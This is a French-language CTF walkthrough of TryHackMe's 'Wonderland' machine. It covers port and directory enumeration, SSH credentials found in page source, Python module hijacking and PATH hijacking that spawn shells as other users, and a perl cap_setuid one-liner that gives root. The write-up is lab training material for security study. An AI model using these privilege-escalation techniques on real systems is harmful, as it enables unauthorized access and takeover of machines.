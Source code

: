 # Wonderland

![fdba6eaf85513262b2a9b12875b0f342(2)](https://user-images.githubusercontent.com/68467919/207438998-d5969836-4f23-4aa1-a4ad-f313eb392de5.jpeg)

## Énumération

### NMAP

```php
sudo nmap -sC -sV -O -oN enum/nmap -vv $ip

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8eeefb96cead70dd05a93b0db071b863 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a927944164f204350a9a847e2c2be84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 000b8044e63d4b6947922c55147e2ac9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### Feroxbuster

```php
feroxbuster -u http://10.10.205.166/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

301      GET        0l        0w        0c http://10.10.205.166/img => img/
200      GET       10l       44w      402c http://10.10.205.166/
301      GET        0l        0w        0c http://10.10.205.166/r => r/
301      GET        0l        0w        0c http://10.10.205.166/r/a => a/
301      GET        0l        0w        0c http://10.10.205.166/r/a/b => b/
301      GET        0l        0w        0c http://10.10.205.166/r/a/b/b => b/
```

## Port 80 | HTTP

En suivant les différents répertoires */r/a/b/b/i/t* nous tombons sur cette page : 

![Untitled](https://user-images.githubusercontent.com/68467919/207439058-933ea372-510e-4962-8e8c-db55a1d13cbf.png)

En regardant le code-source, nous obtenons des creds pour se connecter en SSH sur la session d’alice.

```bash
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

### Alice | SSH

En étant connecté à la session d’Alice, nous pouvons faire un sudo -l pour voir quels scripts nous pourrions exécuter à la place d’un autre utilisateur.

![Untitled 1](https://user-images.githubusercontent.com/68467919/207439082-d6ea7661-5723-4160-a4cb-5fb131a7b5c8.png)

Nous pouvons donc exécuter le script walrus_and_the_carpenter.py en tant que l’utilisateur rabbit.

*walrus_and_the_carpenter.py*

```python
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

[...]

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Nous remarquons que le script import le module *random* et appel la fonction *choice*. Si nous créons notre propre random nous pourrions exécuter n’importe quelle commande lors de l’exécution du script.

Dans */home/alice*, nous créons donc un script nommé *random.py* avec le contenu ci-dessous :

```python
import os

def choice(x):
	os.system('/bin/bash')
```

![Untitled 2](https://user-images.githubusercontent.com/68467919/207439102-c4d76018-9be8-48ca-a1a0-c33ecd3d2417.png)

Le script fait donc bien appel à notre *random.py* qui se trouve dans /home/alice

## Rabbit

Dans le home de Rabbit, un fichier teaParty est présent. En utilisant la commande file, nous pourrions en connaître un peu plus sur le type de ce fichier.

```bash
file teaParty

teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```

Je décide donc de télécharger ce fichier sur ma machine en faisant un serveur web sur la session sur laquelle nous sommes.

```bash
rabin2 -z teaParty

[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002008 0x00002008 59  60   .rodata ascii Welcome to the tea party!\nThe Mad Hatter will be here soon.
1   0x00002048 0x00002048 57  58   .rodata ascii /bin/echo -n 'Probably by ' && date --date='next hour' -R
2   0x00002088 0x00002088 68  69   .rodata ascii Ask very nicely, and I will give you some tea while you wait for him
3   0x000020d0 0x000020d0 32  33   .rodata ascii Segmentation fault (core dumped)
```

En utilisant *ltrace*, nous pouvons voir les différents appels que fait le fichier.

```bash
ltrace ./teaParty

setuid(1003)                                                            = -1
setgid(1003)                                                            = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)                            = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Tue, 13 Dec 2022 22:24:16 +0100
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)                             = 69
getchar(0x7f82ff48ea10, 1, 1, 0x7f82ff3b20d0
```

En vérifiant dans /etc/passwd à quel uid appartient 1003, nous voyons qu’il appartient à l’utilisateur hatter.

```bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```

Nous voyons ici que le script utilise la commande echo et date. Comme pour Alice, si nous parvenons à créer notre propre date, nous pourrions peut-être devenir l’utilisateur Hatter

### Path Hijacking

```bash
nano /tmp/date

#!/bin/bash

/bin/bash
```

```bash
PATH=/tmp/:$PATH
```

![Untitled 3](https://user-images.githubusercontent.com/68467919/207439127-587989d3-2053-46ea-9ca5-34052366aa51.png)

## Root

Après avoir énuméré les différentes façon dont nous pourrions élevé nos privilèges avec linpeas.sh, nous pouvons remarquer qu’un captabilities est set sur le binaire perl.

```bash
/usr/bin/perl = cap_setuid+ep
```

En allant sur GTFOBins, nous pouvons voir que l’exploit si dessous fonctionne pour s’élever en privilège.

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

ROOTED
